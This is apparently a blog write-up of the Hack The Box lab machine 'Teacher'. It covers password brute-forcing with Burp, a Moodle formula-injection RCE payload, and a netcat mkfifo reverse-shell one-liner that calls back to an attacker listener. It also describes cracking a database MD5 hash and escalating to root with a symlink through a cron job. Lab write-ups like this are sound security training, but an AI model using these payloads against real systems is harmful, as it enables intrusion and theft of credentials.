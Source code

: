 ```yaml
---
layout: post
title: Hack The Box - Teacher
categories: hack-the-box
tags: [linux, web, rce, php]
description: My write-up for Teacher from Hack The Box.
image: /hackthebox/teacher/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys , today Teacher retired and here is my write-up about it. I don't have too much to say about this box. It was an easy regular machine , We will exploit an authenticated remote code execution in a vulnerable version of a web application called moodle to get an initial shell on the box. And for privilege escalation we will find a directory which permissions are set to read , write and execute by anyone , and from there we can create a symlink to `/root` or anything else we want to access. It's a linux box and its ip is `10.10.10.153` I added it to `/etc/hosts` as `teacher.htb`. Let's jump right in !
![](/images/hackthebox/teacher/0.png)
<hr>
## Nmap
<br> As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC teacher.htb`
![](/images/hackthebox/teacher/1.png)
<br> We only see http running on port 80. Let's see what's in there.
<br>
<hr>
## HTTP Initial Enumeration
![](/images/hackthebox/teacher/2.png)
<br> There is just a static website titled `Blackhat highschool` , I looked into other pages like `Courses` , `Students` etc... And also checked their source code. And on `Gallery` : 
![](/images/hackthebox/teacher/3.png)
<br> I found this line in the source :
![](/images/hackthebox/teacher/4.png)
<br> for `<img src="images/5.png">` there is an `onerror` attribute to print `That's an F` in the console. So I checked the console : 
![](/images/hackthebox/teacher/5.png)
<br> Weird let's check that image. `http://teacher.htb/images/5.png` :
![](/images/hackthebox/teacher/6.png)
<br> Corrupted file ? Let's check if it's really a corrupted image or it's not an image at all :
`curl http://teacher.htb/images/5.png`
![](/images/hackthebox/teacher/7.png)
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.                                                 

Could you guys figure out what the last charachter is, or just reset it?                                                                   

Thanks,
Giovanni
```
<br> Nice , we have a username and a password but we still need to figure out the last character. But where will we use these credentials anyway ? I ran gobuster with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` in the background and got some results , one of them was `/moodle`. 
`http://teacher.htb/moodle`
![](/images/hackthebox/teacher/8.png)
> Moodle is a free and open-source learning management system written in PHP and distributed under the GNU General Public License  -[Wikipedia](https://en.wikipedia.org/wiki/Moodle)

<br> On the login page there's a guest login :
![](/images/hackthebox/teacher/9.png)
<br> However I couldn't achieve anything from that guest login.
<br>
<hr>
## Bruteforcing the last character
<br> We have the credentials but we need to figure out the last character of the password. I created a list of numbers , letters and special chars and printed them next to the password.
<br> `for i in {a..z}; do echo Th4C00lTheacha$i; done > list.txt` this will print all the letters next to `Th4C00lTheacha`
<br> Then I added some special chars manually like `!@#$%^&*()_-+=.?/\` and finally I added numbers : `for i in {0..9}; do echo Th4C00lTheacha$i; done >> list.txt`
<br> `list.txt` : 
```
Th4C00lTheachaa
Th4C00lTheachab
Th4C00lTheachac
Th4C00lTheachad
Th4C00lTheachae
Th4C00lTheachaf
Th4C00lTheachag
Th4C00lTheachah
Th4C00lTheachai
Th4C00lTheachaj
Th4C00lTheachak
Th4C00lTheachal
Th4C00lTheacham
Th4C00lTheachan
Th4C00lTheachao
Th4C00lTheachap
Th4C00lTheachaq
Th4C00lTheachar
Th4C00lTheachas
Th4C00lTheachat
Th4C00lTheachau
Th4C00lTheachav
Th4C00lTheachaw
Th4C00lTheachax
Th4C00lTheachay
Th4C00lTheachaz
Th4C00lTheacha!
Th4C00lTheacha@
Th4C00lTheacha#
Th4C00lTheacha$
Th4C00lTheacha%
Th4C00lTheacha^
Th4C00lTheacha&
Th4C00lTheacha*
Th4C00lTheacha(
Th4C00lTheacha)
Th4C00lTheacha_
Th4C00lTheacha-
Th4C00lTheacha+
Th4C00lTheacha=
Th4C00lTheacha.
Th4C00lTheacha?
Th4C00lTheacha/
Th4C00lTheacha\
Th4C00lTheacha0
Th4C00lTheacha1
Th4C00lTheacha2
Th4C00lTheacha3
Th4C00lTheacha4
Th4C00lTheacha5
Th4C00lTheacha6
Th4C00lTheacha7
Th4C00lTheacha8
Th4C00lTheacha9
```
<br> Since it's a small list , I used burp intruder to bruteforce the password. Let's intercept the request and send it to intruder :
![](/images/hackthebox/teacher/10.png)
<br>
<br>
![](/images/hackthebox/teacher/11.png)
<br>
<br>
![](/images/hackthebox/teacher/12.png)
<br> After it's finished , all the responses were 870 bytes in length except the response of the payload `Th4C00lTheacha#`.
![](/images/hackthebox/teacher/13.png)
<br> So probably this is the right password , let's check.
![](/images/hackthebox/teacher/14.png)
<br> It worked and now we are in as `Giovanni`
<br>
<hr>
## RCE , Initial Shell as `www-data`
<br> After some enumeration I didn't find anything interesting , so I searched on Google and found this [article](https://blog.ripstech.com/2018/moodle-remote-code-execution/). Let's try to reproduce that vulnerability.
<br> First , we will go to the `Algebra` course :
![](/images/hackthebox/teacher/15.png)
<br> Then we will turn editing on :
![](/images/hackthebox/teacher/16.png)
<br> Now we can edit the course , so we will choose any topic and click on `Add an activity or resource` and we will choose `Quiz` :
![](/images/hackthebox/teacher/17.png)
<br> Then we will just fill in the required information :
![](/images/hackthebox/teacher/18.png)
<br> And click on `Save and display`.
![](/images/hackthebox/teacher/19.png)
<br> After that we will click on `edit quiz` :
![](/images/hackthebox/teacher/20.png)
<br> And add a new question. Question type will be `Calculated` :
![](/images/hackthebox/teacher/21.png)
<br>
<br>
![](/images/hackthebox/teacher/22.png)
<br> Again we will fill in the required information :
![](/images/hackthebox/teacher/23.png)
<br> And finally we reach the actual exploitation , we will set the answer formula to :
```
/*{a*/`$_GET[0]`;//{x}}`
```
![](/images/hackthebox/teacher/24.png)
<br> This will allow us to pass system commands through a url parameter called `0` , More info about how the exploit is working can be found in the previously mentioned article.
<br> After saving the changes we will get this page : 
![](/images/hackthebox/teacher/25.png)
<br> We will click on `Next Page` to finally get to the vulnerable page :
![](/images/hackthebox/teacher/26.png)
<br> Let's add the parameter `0` and get a reverse shell :
<br> Shell : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`
![](/images/hackthebox/teacher/27.png)
<br> Note : the payload is url encoded. So final payload will be : `&0=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+ip+port+>/tmp/f`
<br> After sending the request , our listener gets a callback. And we get a reverse shell as `www-data` :
![](/images/hackthebox/teacher/28.png)
<br> There is only `giovanni` on the box and we can't access his `/home` directory as `www-data`.
![](/images/hackthebox/teacher/29.png)
<hr>
## Hardcoded Database Credentials , Privilege Escalation to `giovanni`
<br> Back to `/var/www/html/moodle` , I wanted to check config files and other stuff to see if there are any information that can help. And in `config.php` I found database credentials :
![](/images/hackthebox/teacher/30.png)
<br> Sweet , Let's see what's in there.
`mysql -h 127.0.0.1 -u root -p`
![](/images/hackthebox/teacher/31.png)
<br> We are not in any database `[(none)]` , Let's list the databases :
`SHOW DATABASES;`
![](/images/hackthebox/teacher/32.png)
<br> `moodle` is interesting and might have some passwords.
`USE moodle;`
![](/images/hackthebox/teacher/33.png)
<br> Now let's check the tables :
`SHOW TABLES;`
![](/images/hackthebox/teacher/34.png)
<br> A lot of tables , but an interesting one is called `mdl_user` :
![](/images/hackthebox/teacher/35.png)
<br> Alright , let's see what's in that table :
`SELECT * from mdl_user;`
![](/images/hackthebox/teacher/36.png)
<br> We didn't get the best output :D but anyway I looked into it and found this `md5` hash :
![](/images/hackthebox/teacher/37.png)
<br> And its name is `Giovannibak` , probably a backup for giovanni's password. [crackstation](https://crackstation.net/) was able to crack it :
![](/images/hackthebox/teacher/38.png)
<br> The password is `expelled`, we can `su` to `giovanni`
![](/images/hackthebox/teacher/39.png)
<br> Now we own user.
<br>
<hr>
## `777`. Ability to read , write and execute anything on the system
<br> In giovanni's `/home` directory there is a directory called `work` which has two directories `courses` and `tmp`. Nothing Special.
![](/images/hackthebox/teacher/40.png)
<br>
<br>
![](/images/hackthebox/teacher/41.png)
<br> After a lot of enumeration I found in `/usr/bin` a script called `backup.sh` :
![](/images/hackthebox/teacher/42.png)
<br>
<br>
![](/images/hackthebox/teacher/43.png)
<br> We don't really care about the `tar` commands , What we care about is that it's changing current directory to `/home/giovanni/work` then changes it once again to `/home/giovanni/work/tmp` then changes permissions to `777` recursively. This means that any user can read , write and execute any file in `/home/giovanni/work/tmp`. So if we created a symlink for `/root` in `/home/giovanni/work/tmp` and wait for the script to get executed by root (cronjob) we will have access to `/root`. In normal conditions creating a symlink to `/root` won't let you have access to it if you don't have the permissions to. Because it's still linking to a directory that you are not authorized to access. But since the script runs `chmod 777` on `/home/giovanni/work/tmp` recursively, Anyone has access to what's in there even symlinks. This [article](https://www.maketecheasier.com/file-permissions-what-does-chmod-777-means/) explains it very well. Read [this](https://stackabuse.com/symbolic-links-in-unix-linux/) if you don't know what's a symlink.
<br> Alright , Let's create a symlink for `/root` in `/home/giovanni/work/tmp`
`ln -s /root ./tmp`
![](/images/hackthebox/teacher/44.png)
<br>
<br>
![](/images/hackthebox/teacher/45.png)
<br> And we owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - RedCross](/hack-the-box/redcross/)
<br> Next Hack The Box write-up : [Hack The Box - Irked](/hack-the-box/irked/)
<hr>
